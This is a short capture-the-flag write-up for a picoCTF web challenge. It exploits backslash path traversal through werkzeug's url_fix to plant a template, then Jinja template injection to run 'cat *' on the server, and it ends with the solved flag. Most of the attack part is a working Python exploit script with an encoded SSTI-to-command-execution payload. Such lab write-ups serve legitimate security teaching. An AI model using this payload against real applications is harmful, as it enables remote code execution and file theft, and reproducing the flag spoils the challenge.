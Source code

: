 ```yaml
---
ai_date: '2025-04-27 05:30:00'
ai_summary: Python path traversal and template injection vulnerability exploited to
  read files and retrieve the flag
ai_tags:
- path-traversal
- template-injection
- rce
created: 2024-11-16T19:45
updated: 2024-11-16T19:48
---
```


Python path traversal + template injection.

```python
from werkzeug.urls import url_fix
```

`url_fix()` converts backslashes to slashes, I have encountered this before.

Which means we can path traverse using backslashes, to add files to the `../templates/errors/` directory.

Afterwards we can exploit the template include to include our custom templates.

```html
{% include "errors/" + error + ".html" ignore missing %}
```

```python
import requests
t = "https://notepad.mars.picoctf.net"
payload = "{{request['application']['\\x5f\\x5fglobals\\x5f\\x5f']['\\x5f\\x5fbuiltins\\x5f\\x5f']['\\x5f\\x5fimport\\x5f\\x5f']('os')['popen']('cat *')['read']()}}"

p = ("../templates/errors/flag").ljust(128, "a")


url = requests.post(t+"/new", data={"content": p.replace("/", "\\")+".html"+payload}).url
error = url.split("/")[-1][:-len(".html")]

print(requests.get(t+"/", params={"error": error}).text)
```

```flag
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```